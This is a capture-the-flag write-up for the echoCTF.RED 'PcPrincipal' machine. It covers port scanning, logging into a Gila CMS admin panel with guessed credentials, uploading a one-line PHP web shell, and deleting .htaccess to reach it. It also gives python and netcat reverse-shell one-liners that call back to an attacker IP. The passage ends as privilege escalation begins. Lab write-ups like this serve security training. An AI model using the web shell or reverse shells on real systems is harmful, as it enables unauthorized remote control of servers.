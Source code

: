 ```yaml
---
layout: default
title : muzec - PcPrincipal - echoCTF.RED
---
```



### Enumeration With Nmap

`nmap -p- --min-rate 10000 -oA nmap/allports -v 10.0.100.32`


```
┌──(muzec㉿Muzec-Security)-[~/Documents/echoctf/pcprincipal]
└─$ cat nmap/allports.nmap                                                       
# Nmap 7.91 scan initiated Sat Dec  4 12:57:02 2021 as: nmap -p- --min-rate 10000 -oA nmap/allports -v 10.0.100.32
Increasing send delay for 10.0.100.32 from 0 to 5 due to 79 out of 261 dropped probes since last increase.
Warning: 10.0.100.32 giving up on port because retransmission cap hit (10).
Increasing send delay for 10.0.100.32 from 640 to 1000 due to 172 out of 573 dropped probes since last increase.
Nmap scan report for 10.0.100.32
Host is up (0.16s latency).
Not shown: 41913 closed ports, 23621 filtered ports
PORT   STATE SERVICE
80/tcp open  http

Read data files from: /usr/bin/../share/nmap
# Nmap done at Sat Dec  4 12:58:07 2021 -- 1 IP address (1 host up) scanned in 65.04 seconds
```

Default Script/Service Detection.

`nmap -sC -sV -oA nmap/normal -p 80 10.0.100.32`

```
┌──(muzec㉿Muzec-Security)-[~/Documents/echoctf/pcprincipal]
└─$ cat nmap/normal.nmap  
# Nmap 7.91 scan initiated Sat Dec  4 12:57:17 2021 as: nmap -sC -sV -oA nmap/normal -p 80 10.0.100.32
Nmap scan report for 10.0.100.32
Host is up (0.20s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: Site doesn't have a title (text/html).

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Dec  4 12:57:31 2021 -- 1 IP address (1 host up) scanned in 13.72 seconds
```

Seems we are dealing with HTTP which is cool lol so i can show off some new tools which i found interesting from `echotrust` with out to much of talks let jump in. Now let check what we have on the port 80 .

```
lynx http://10.0.100.32/
```

### Lynx

Lynx is a terminal-based web browser for all Linux distributions. It shows the result as plain text on the terminal. It is a classic non-graphical text-mode web browser which displays the pages on the terminal. Lynx does not load images and multimedia contents, hence it is fast as compared to other browsers.

![image](https://user-images.githubusercontent.com/69868171/145193344-28a3e6b2-12c6-4aae-a294-fbd303be4a6c.png)

Cool right yes i know so we know we are dealing with `gilacms` i look around to see if i can get right version but damn nothing it was well hidden i guess or removed let see if i can guess the admin page.

```
lynx http://10.0.100.32/gila/admin
```

![image](https://user-images.githubusercontent.com/69868171/145194533-1592b2c2-9efc-4547-909a-4708e54d3d72.png)

Boom seems we are right now let hit the browser.

![image](https://user-images.githubusercontent.com/69868171/145195342-90d18c1a-b48b-4fbf-8f54-6f3d37875baa.png)

But man seems we need a credentials i try all the default one but none work so we get a hint let read it.

```
 There is a need to brute force http://pcprincipal.echocity-f.com/ for username and password but it should be easy to find in the 3rd try., The domain you're going to need is @pcprincipal.echocity-f.com and the password is given to you on the frontpage as a domain...
```
Now it getting interesting so we know now that the username is `admin@pcprincipal.echocity-f.com` so for the password we should be able to guess it.

![image](https://user-images.githubusercontent.com/69868171/145196658-8fafdd7e-0d10-4a5d-922e-812df4531982.png)

Mama we are in and guess what we have the version ok they should be a way around to upload a shell to get RCE.

![image](https://user-images.githubusercontent.com/69868171/145197180-8b4b6d80-b13a-4a84-9c3c-f5cb9ed3bacd.png)

Click on content > file manager .

![image](https://user-images.githubusercontent.com/69868171/145197634-95e53811-ac1d-4bea-8920-93e48f9b74fc.png)

We have the `config.php` file but not that helpful let try uploading a php file and see.

![image](https://user-images.githubusercontent.com/69868171/145198159-7117995b-1ce1-40a5-b441-52be02a537c4.png)

Bournce back hmmm seems we have no permission to upload file there let find a place which we can abuse to upload our malicious file.

```
                                                                                                                                                                       
┌──(muzec㉿Muzec-Security)-[~/Documents/echoctf/pcprincipal]
└─$ vi shell.php           
                                                                                                                                                                       
┌──(muzec㉿Muzec-Security)-[~/Documents/echoctf/pcprincipal]
└─$ cat shell.php       
<?php system ($_GET['cmd']) ?>
```

Now we just need a place to upload it look through folder and i was able to upload on the `tmp` folder which is cool.

![image](https://user-images.githubusercontent.com/69868171/145200606-6641f048-7ddd-4993-ada5-63993b49099a.png)


Now let try to access it from outside but man i got `403 forbidden` .

![image](https://user-images.githubusercontent.com/69868171/145200911-88828c9f-4d1c-4267-a707-cc451175d837.png)

Let try see if i can modified the `.htaccess` or delete it. Trying to edit no luck but delete yes luck lol.

![image](https://user-images.githubusercontent.com/69868171/145204395-073e8d0d-6ca7-4e0e-9d8b-d1f0ba39ba67.png)

Deleted now let try to access it.

![image](https://user-images.githubusercontent.com/69868171/145204480-c0b72047-03dd-407a-8c65-0a5c5e6aaafb.png)

Boom we can execute a command on the remote host now let get back a reverse shell back to our terminal.

### Python One Liner Reverse shell Or Ncat.

```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.
```

OR

```
nc -e /bin/bash 10.10.10.0 1337
```

Now back to check our listener.

![image](https://user-images.githubusercontent.com/69868171/145205274-12f67dbc-792c-417a-945a-d426a34dcf6b.png)

Now we have shell which is cool let check kernal version and some other stuffs and way to move our privilege to root.

![image](https://user-images.githubusercontent.com/69868171/145205718-87b5e6e3-6b9e-4000-9dcd-e8c826c66dd6.png)

Quite alright it running debian cool let check some running processes.

```
www-data@pcprincipal:/var/www/html/gila/tmp$ ps -auxwwwwww
USER       PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND
root         1  0.0  0.1   3732  2816 ?        Ss   Dec07   0:00 /bin/bash /entrypoint.sh tail -f /var/log/supervisor/supervisord.log /var/log/supervisor/confd.log
root        42  0.0  0.0   2384  1640 ?        S    Dec07   0:00 /bin/sh /usr/bin/mysqld_safe
mysql      159  0.0  3.9 1255420 81816 ?       Sl   Dec07   0:25 /usr/sbin/mysqld --basedir=/usr --datadir=/var/lib/mysql --plugin-dir=/usr/lib/x86_64-linux-gnu/mariadb19/plugin --user=mysql --skip-log-error --pid-file=/run/mysqld/mysqld.pid --socket=/var/run/mysqld/mysqld.sock
root       160  0.0  0.0   4704  1072 ?        S    Dec07   0:00 logger -t mysqld -p daemon error
root       234  0.0  0.3  15848  6960 ?        Ss   Dec07   0:00 /usr/sbin/sshd
root       237  0.0  0.1   8492  3108 ?        Ss   Dec07   0:00 tmux new -d -s 0 /usr/bin/etcd
root       238  0.2  1.1 11201756 24300 pts/0  Ssl+ Dec07   2:47 /usr/bin/etcd
root       284  0.0  0.1   3780  2920 pts/1    Ss+  Dec07   0:00 /bin/bash /usr/local/bin/etcd-feeder.sh
root       318  0.0  1.0 215060 21400 ?        Ss   Dec07   0:02 /usr/sbin/apache2 -k start
www-data   321  0.0  0.7 215400 16208 ?        S    Dec07   0:00 /usr/sbin/apache2 -k start
www-data   322  0.0  0.7 215304 15844 ?        S    Dec07   0:01 /usr/sbin/apache2 -k start
www-data   323  0.0  0.7 215404 16244 ?        S    Dec07   0:00 /usr/sbin/apache2 -k start
www-data   324  0.0  0.7 215400 15432 ?        S    Dec07   0:01 /usr/sbin/apache2 -k start
www-data   325  0.0  0.7 215400 16072 ?        S    Dec07   0:00 /usr/sbin/apache2 -k start
root       337  0.0  0.8  26752 16868 ?        Ss   Dec07   0:07 /usr/bin/python2 /usr/bin/supervisord -c /etc/supervisor/supervisord.conf
root       339  0.0  0.0   2384   736 ?        S    Dec07   0:00 /bin/sh -c rm -f /etc/confd/conf.d/etsctf_authorized_keys.toml; install -o root -g root -m 0666 /etc/confd/conf.d/etsctf_authorized_keys.toml.bk /etc/confd/conf.d/etsctf_authorized_keys.toml; /work/src/github.com/kelseyhightower/confd/bin/confd
root       347  0.0  0.0   2324   724 ?        S    Dec07   0:02 tail -f /var/log/supervisor/supervisord.log /var/log/supervisor/confd.log
root       348  0.0  1.0 645516 21508 ?        Sl   Dec07   0:09 /work/src/github.com/kelseyhightower/confd/bin/confd
www-data  1643  0.0  0.7 215400 16308 ?        S    Dec07   0:01 /usr/sbin/apache2 -k start
www-data 10791  0.0  0.7 215400 15756 ?        S    11:06   0:00 /usr/sbin/apache2 -k start
www-data 12894  0.0  0.0   2384   736 ?        S    12:00   0:00 sh -c nc -e /bin/bash 10.10.0.186 1337
www-data 12895  0.0  0.1   3732  2668 ?        S    12:00   0:00 bash
www-data 12897  0.0  0.3  14064  8060 ?        S    12:00   0:00 python3 -c import pty; pty.spawn('/bin/bash')
www-data 12898  0.0  0.1   4092  3316 pts/2    Ss   12:00   0:00 /bin/bash
root     13006  0.0  0.0   2292   724 pts/1    S+   12:03   0:00 sleep 360
www-data 13155  0.0  0.1   7864  2812 pts/2    R+   12:07   0:00 ps -auxwwwwww
www-data@pcprincipal:/var/www/html/gila/tmp$ 
```

Some strange process `confd` seems we need to focus on that 
